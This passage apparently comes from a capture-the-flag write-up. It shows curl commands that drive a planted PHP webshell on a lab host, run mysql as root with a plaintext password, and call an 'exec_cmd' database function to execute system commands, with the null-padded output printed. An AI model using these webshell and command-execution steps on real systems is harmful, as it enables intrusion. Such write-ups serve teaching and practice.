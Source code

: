 #### exec\_cmd

I can run the `mysql` binary through this webshell:

```

root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT @@version"'
@@version
5.7.30-0ubuntu0.18.04.1

```

The `exec_cmd` function does return output when run this way:

```

root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"id\");"'
exec_cmd("id")
uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0

```

For some reason it appends a ton of `\0` to the end. Multi-line output isn’t handled very well (as in most of it doesn’t come through):

```

root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"ls /var/lib/mysql\");"'
exec_cmd("ls /var/lib/mysql")
auto.cnf\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0

```
